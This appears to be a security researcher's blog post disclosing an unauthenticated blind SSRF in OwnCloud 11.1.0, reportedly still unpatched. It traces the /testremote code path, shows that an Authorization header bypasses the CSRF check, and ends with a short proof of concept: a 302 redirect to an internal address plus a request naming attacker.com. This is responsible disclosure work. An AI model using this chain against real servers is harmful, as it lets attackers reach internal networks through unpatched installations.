



<a href="https://owncloud.com/" target="_blank" rel="noopener noreferrer">OwnCloud</a> is one of the most widely used software solutions for easily setting up a file cloud on your own infrastructure, it is used by many institutions and companies around the world.

In this post, I'll present brief research into a blind SSRF vulnerability, which was responsibly reported to the organization through official channels but has still not been patched in the latest version of the software.

## The `/testremote` route

Looking at the app's code, we see that the app's routes are divided into several `routes.php` files, these files list the routes for each path and specify which function handles each one. In this example, the endpoint we're interested in is referenced in the `routes.php` file in `apps/files_sharing/appinfo`:

<a href="https://github.com/owncloud/core/blob/v11.1.0/apps/files_sharing/appinfo/routes.php#L29-L39" target="_blank" rel="noopener noreferrer"><code>apps/files_sharing/appinfo/routes.php:29-39</code></a>

```php
$application = new \OCA\Files_Sharing\AppInfo\Application();
$application->registerRoutes($this, [
	'resources' => [
		'ExternalShares' => ['url' => '/api/externalShares'],
	],
	'routes' => [
		[
			'name' => 'externalShares#testRemote',
			'url' => '/testremote',
			'verb' => 'GET'
		],
        // snip...
```

Here we can see that the function responsible for the `/testremote` route is `testRemote`, so let's take a look at what it does.

<a href="https://github.com/owncloud/core/blob/v11.1.0/apps/files_sharing/lib/Controllers/ExternalSharesController.php#L177-L188" target="_blank" rel="noopener noreferrer"><code>apps/files_sharing/lib/Controllers/ExternalSharesController.php:177-188</code></a>
```php
 /**
    * @PublicPage
    * @NoOutgoingFederatedSharingRequired
    * @NoIncomingFederatedSharingRequired
    *
    * @param string $remote
    * @return DataResponse
 */
public function testRemote($remote) {
	$response = $this->externalManager->testRemoteUrl($this->clientService, $remote);
	return new DataResponse($response);
} 
```

One of the most interesting things we see is that it sets several flags, including `@PublicPage`, which allows this page to be accessed without a valid session. We also see that the `remote` parameter is passed to another function called `testRemoteUrl`.

<a href="https://github.com/owncloud/core/blob/v11.1.0/apps/files_sharing/lib/External/Manager.php#L573-L624" target="_blank" rel="noopener noreferrer"><code>apps/files_sharing/lib/External/Manager.php:573-624</code></a>

```php
public function testRemoteUrl(IClientService $clientService, string $remote) {
	$parsed_host = parse_url($remote, PHP_URL_HOST);
	$parsed_port = parse_url($remote, PHP_URL_PORT);
	$parsed_path = parse_url($remote, PHP_URL_PATH);
	if (\is_string($parsed_host)) {
		$remote = $parsed_host;
		if ($parsed_port !== null) {
			$remote .= ':' . $parsed_port;
		}
		if ($parsed_path !== null) {
			$remote .= \rtrim($parsed_path, '/');
		}
	} else {
		$string_to_parse = 'http://' . $remote;
		$parsed_host = parse_url($string_to_parse, PHP_URL_HOST);
		$parsed_port = parse_url($string_to_parse, PHP_URL_PORT);
		$parsed_path = parse_url($string_to_parse, PHP_URL_PATH);
		if (\is_string($parsed_host)) {
			$remote = $parsed_host;
			if ($parsed_port !== null) {
				$remote .= ':' . $parsed_port;
			}
			if ($parsed_path !== null) {
				$remote .= \rtrim($parsed_path, '/');
			}
		}
	}
	try {
		// one initial connectivity check on https and http
		if (!$this->checkConnectivity($clientService, $remote)) {
			return false;
		}
		if ($this->testUrl($clientService, 'https://' . $remote . '/ocs-provider/') ||
			$this->testUrl($clientService, 'https://' . $remote . '/ocs-provider/index.php') ||
			$this->testUrl($clientService, 'https://' . $remote . '/status.php', true)
		) {
			return 'https';
		}

		if (
			$this->testUrl($clientService, 'http://' . $remote . '/ocs-provider/') ||
			$this->testUrl($clientService, 'http://' . $remote . '/ocs-provider/index.php') ||
			$this->testUrl($clientService, 'http://' . $remote . '/status.php', true)
		) {
			return 'http';
		}
	} catch (ConnectException $e) {
		\OC::$server->getLogger()->logException($e, ['message' => "Remote $remote not reachable"]);
	}

	return false;
}
```

The first half of the function normalizes the value we send. It runs `parse_url` on `$remote` to pull out the host, the port and the path, and rebuilds the string from those three pieces, so anything else (a query string, a fragment, credentials) is dropped. If `$remote` has no scheme, `parse_url` finds no host, so the function prepends `http://` and parses it again. What matters for us is that the port and the path survive this step.

Once `$remote` is clean, it is passed to `checkConnectivity` inside an `if` statement. If that function returns `false`, the checks below it are skipped and `testRemoteUrl` returns right away, so let's see what it does.

<a href="https://github.com/owncloud/core/blob/v11.1.0/apps/files_sharing/lib/External/Manager.php#L626-L641" target="_blank" rel="noopener noreferrer"><code>apps/files_sharing/lib/External/Manager.php:626-641</code></a>

```php
private function checkConnectivity(IClientService $clientService, string $remote): bool {
	foreach (['http://', 'https://'] as $schema) {
		try {
			if ($this->testUrl($clientService, $schema . $remote . '/status.php', false, true)) {
				\OC::$server->getLogger()->error("Remote $schema$remote/status.php reachable");
				return true;
			}
		} catch (\Exception $ex) {
			\OC::$server->getLogger()->logException($ex, ['message' => "Remote $schema$remote/status.php not reachable"]);
		}
	}

	\OC::$server->getLogger()->error("Remote $remote not reachable via http and https");
	return false;
}
```

Basically, for each schema `http://` and `https://`, it calls another function called `testUrl`, passing it the path `/status.php`.

<a href="https://github.com/owncloud/core/blob/v11.1.0/apps/files_sharing/lib/External/Manager.php#L545-L571" target="_blank" rel="noopener noreferrer"><code>apps/files_sharing/lib/External/Manager.php:545-571</code></a>

```php
protected function testUrl(IClientService $clientService, string $remote, bool $checkVersion = false, bool $throwConnectException = false): bool {
	try {
		$client = $clientService->newClient();
		$response = \json_decode($client->get(
			$remote,
			[
				'timeout' => 3,
				'connect_timeout' => 3,
			]
		)->getBody());

		if ($checkVersion) {
			return !empty($response->version) && \version_compare($response->version, '7.0.0', '>=');
		}

		return \is_object($response);
	} catch (ConnectException $e) {
		if ($throwConnectException) {
			throw $e;
		}
	} catch (\Exception $e) {
	}
	return false;
}
```

And this is really all we need to know. `testUrl` builds a client, fires a `GET` at the URL it was handed with a three second timeout, and runs `json_decode` on the body. If `$checkVersion` is set it also wants a `version` field of `7.0.0` or higher, otherwise any JSON object will do.

What happens after the request is of little use to us. Every branch collapses into a boolean, valid JSON gives `true`, anything else gives `false`, and the two `catch` blocks turn a failed connection into `false` as well, the `ConnectException` is only thrown when `checkConnectivity` asks for it, and even then the caller just logs it and moves on. The response never tells us what the remote actually replied.

But the request is sent before any of that is decided, and we control the server, the port, and the path even though it always ends with `/status.php`. That's our blind SSRF.

## Why "CSRF check failed"?

After reading all this code, we can now start testing whether our unauthenticated blind SSRF works.



But we were met with an unpleasant surprise "CSRF check failed", How can there be a CSRF issue if I don't even have cookies? If we search the code for that string, we'll see the exception that's being thrown.

<a href="https://github.com/owncloud/core/blob/v11.1.0/lib/private/AppFramework/Middleware/Security/Exceptions/CrossSiteRequestForgeryException.php#L29-L39" target="_blank" rel="noopener noreferrer"><code>lib/private/AppFramework/Middleware/Security/Exceptions/CrossSiteRequestForgeryException.php:29-39</code></a>

```php
/**
 * Class CrossSiteRequestForgeryException is thrown when a CSRF exception has
 * been encountered.
 *
 * @package OC\AppFramework\Middleware\Security\Exceptions
 */
class CrossSiteRequestForgeryException extends SecurityException {
	public function __construct() {
		parent::__construct('CSRF check failed', Http::STATUS_PRECONDITION_FAILED);
	}
}
```

And by looking for where that exception is thrown, we can identify the function that is preventing us from accessing the endpoint.

<a href="https://github.com/owncloud/core/blob/v11.1.0/lib/private/AppFramework/Middleware/Security/SecurityMiddleware.php#L115-L160" target="_blank" rel="noopener noreferrer"><code>lib/private/AppFramework/Middleware/Security/SecurityMiddleware.php:115-160</code></a>

```php
/**
 * This runs all the security checks before a method call. The
 * security checks are determined by inspecting the controller method
 * annotations
 * @param string $controller the controllername or string
 * @param string $methodName the name of the method
 * @throws SecurityException when a security check fails
 */
public function beforeController($controller, $methodName) {
	// this will set the current navigation entry of the app, use this only
	// for normal HTML requests and not for AJAX requests
	$this->navigationManager->setActiveEntry($this->appName);

	// security checks
	$isPublicPage = $this->reflector->hasAnnotation('PublicPage');
	if (!$isPublicPage) {
		if (!$this->session->isLoggedIn() && !\OC::handleLogin($this->request)) {
			throw new NotLoggedInException();
		}

		if (!$this->reflector->hasAnnotation('NoAdminRequired')) {
			if (!$this->isAdminUser) {
				throw new NotAdminException();
			}
		}
	}

	// CSRF check - also registers the CSRF token since the session may be closed later
	Util::callRegister();
	if (!$this->reflector->hasAnnotation('NoCSRFRequired')) {
		$hasNoAuthHeader = ($this->request->getHeader("Authorization") === null || trim($this->request->getHeader("Authorization")) === '');
		if (!$this->request->passesCSRFCheck() && $hasNoAuthHeader) {
			throw new CrossSiteRequestForgeryException();
		}
	}

	/**
	 * FIXME: Use DI once available
	 * Checks if app is enabled (also includes a check whether user is allowed to access the resource)
	 * The getAppPath() check is here since components such as settings also use the AppFramework and
	 * therefore won't pass this check.
	 */
	if (\OC_App::getAppPath($this->appName) !== false && !\OC_App::isEnabled($this->appName)) {
		throw new AppNotEnabledException();
	}
}
```

The `beforeController` function is responsible for preventing us from accessing that path, as you can see in its description: "This runs all the security checks before a method call." The part that interests us most is where the exception is thrown.

```php
// CSRF check - also registers the CSRF token since the session may be closed later
Util::callRegister();
if (!$this->reflector->hasAnnotation('NoCSRFRequired')) {
	$hasNoAuthHeader = ($this->request->getHeader("Authorization") === null || trim($this->request->getHeader("Authorization")) === '');
	if (!$this->request->passesCSRFCheck() && $hasNoAuthHeader) {
		throw new CrossSiteRequestForgeryException();
	}
}
```

Basically, if the endpoint does not have the "@NoCSRFRequired" flag that is true in our case and does not include the "Authorization" header, it performs the CSRF check using the `passesCSRFCheck` function. 

So if the request contains the "Authorization" header, it doesn't perform the check?





Well yes, if the header is present, it doesn't perform the CSRF check, and we receive the requests in our webhook, so we've already confirmed our blind SSRF with the path `/status.php`.

## From /status.php to an arbitrary path

The last segment is appended by the code, so /status.php always ends up on the URL. But nobody said the server we point at has to answer with a body, it can answer with a redirect.

Look at how OwnCloud builds the Guzzle client:

<a href="https://github.com/owncloud/core/blob/v11.1.0/lib/private/Http/Client/Client.php#L100-L131" target="_blank" rel="noopener noreferrer"><code>lib/private/Http/Client/Client.php:100-131</code></a>

```php
/**
 * Get the default config for requests.
 */
private function setDefaultOptions() {
	$options = [];
	// Either use user bundle or the system bundle if nothing is specified
	if ($this->certificateManager->listCertificates() !== []) {
		$options[RequestOptions::VERIFY] = $this->certificateManager->getAbsoluteBundlePath();
	} else {
		// If the instance is not yet setup we need to use the static path as
		// $this->certificateManager->getAbsoluteBundlePath() tries to instantiate
		// a view
		if ($this->config->getSystemValue('installed', false) && !\OCP\Util::needUpgrade()) {
			$options[RequestOptions::VERIFY] = $this->certificateManager->getAbsoluteBundlePath(null);
		} else {
			$options[RequestOptions::VERIFY] = \OC::$SERVERROOT . '/resources/config/ca-bundle.crt';
		}
	}

	$options[RequestOptions::HEADERS]['User-Agent'] = 'ownCloud Server Crawler';
	$proxyUri = $this->getProxyUri();
	if ($proxyUri !== '') {
		$noProxyList = $this->config->getSystemValue('proxy_ignore', []);
		if (!\is_array($noProxyList)) {
			$noProxyList = [];
		}
		$options[RequestOptions::PROXY] = [
			'http' => $proxyUri,
			'https' => $proxyUri,
			'no' => $noProxyList,
		];
	}

	$this->defaultOptions = $options;
}
```

`setDefaultOptions` only sets the CA bundle, the `User-Agent` and the proxy. `allow_redirects` is never touched, so Guzzle's default applies and the client follows up to five redirects by default.

This means we can set up a redirect to an arbitrary host and path.

## POC Blind SSRF tested in last version 11.1.0

The only thing needed for this is a host that redirects to the URL and path specified.

1. Set up your server redirect to the internal resource or any destination you want using a 302 code and the Location header, in my case requestrepo.
```txt
HTTP/1.1 302 Found
location: http://192.168.1.33:1234/internal

```

2. Send the request to the /testremote endpoint and set the "remote" parameter to the address of your server, with the "Authorization" with any value.
```txt
GET /index.php/apps/files_sharing/testremote?remote=attacker.com HTTP/1.1
Host: localhost
Authorization: guchi

```

3. Your server will receive the request, and the Guzzle client will follow the redirect and make the request to the arbitrary path.

That's it, you now have a blind SSRF in the latest version of OwnCloud, to an any public or internal address.

### POC Video
<video src="/assets/img/owncloud-unauthenticated-blind-ssrf/poc.mp4" controls></video>

## Report Timeline

- **2026-02-16** — Reported to OwnCloud via YesWeHack
- **2026-02-27** — Report marked as "out of scope" because it is a blind SSRF
- **2026-02-27** — Ask if a CVE could be assigned to this vulnerability (Ignored)
- **2026-11-06** — Confirmed the chain vuln works on OwnCloud 11.1.0, public disclosure

Once again, the vendor or the triager responsible for handling vulnerability reports is refusing (ignoring the message) to assign a CVE, and the vulnerability isn't even being fixed. Don't ask me why, beacuse I have no idea.

I hope you enjoyed this research and this post ;)